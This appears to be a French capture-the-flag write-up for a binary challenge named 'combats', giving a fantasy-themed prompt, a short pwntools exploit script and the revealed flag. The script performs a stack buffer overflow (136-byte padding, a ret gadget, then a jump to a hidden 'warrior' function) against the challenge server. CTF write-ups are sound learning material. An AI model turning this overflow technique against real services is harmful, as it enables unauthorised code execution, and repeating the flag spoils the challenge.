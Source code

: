 ## Enoncé

>Les anciens guerriers de Naori croyaient que pour accéder à la connaissance ultime, il fallait vaincre non seulement ses ennemis, mais aussi ses propres faiblesses. Le Combat Final est une épreuve mythique où chaque guerrier doit prouver sa force, son intelligence, et sa maîtrise des arts guerriers. Ce n'est qu'en triomphant de cette épreuve que vous pourrez enfin atteindre le sommet du sanctuaire et révéler le dernier secret.
>
>Vous voilà face à l'ultime épreuve. Vous vous trouvez dans une arène souterraine, éclairée uniquement par des torches vacillantes. Au centre de l'arène se dresse une statue imposante d'un ancien guerrier, l'arme au poing. Une inscription à ses pieds indique :
>
>"Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude."
>
>Pour sortir victorieux de cette épreuve, vous devrez exploiter les faiblesses de l'adversaire. Cette fois, il s'agit de trouver une vulnérabilité cachée dans le code du sanctuaire, représentée par le programme que vous devez maîtriser.
>
>En triomphant de cette épreuve, vous serez reconnu comme un véritable maître du Chemin du Guerrier. Les esprits de Naori vous accorderont leur ultime bénédiction, et vous aurez enfin accès aux secrets cachés depuis des siècles.
>
>Jeune guerrier, ce combat est le plus difficile que vous aurez à affronter, mais c'est aussi le dernier obstacle entre vous et la gloire. Faites preuve de courage, de ruse, et de précision. Que la force des anciens guerriers de Naori soit avec vous dans ce Combat Final.


![combats](combats)
## Résolution


```python
#!/usr/bin/env python3

from pwn import *

#context(arch="amd64", os="linux", endian="little", word_size=64)
exe = context.binary = ELF(args.EXE or 'combats')

p = remote("challenges.hackagou.nc", 5003)

warrior = 0x4011d8
ret = 0x40101a

payload = b'A' * 136
payload += p64(ret)
payload += p64(warrior)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```

>[!question]- Spoiler du flag
> OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}


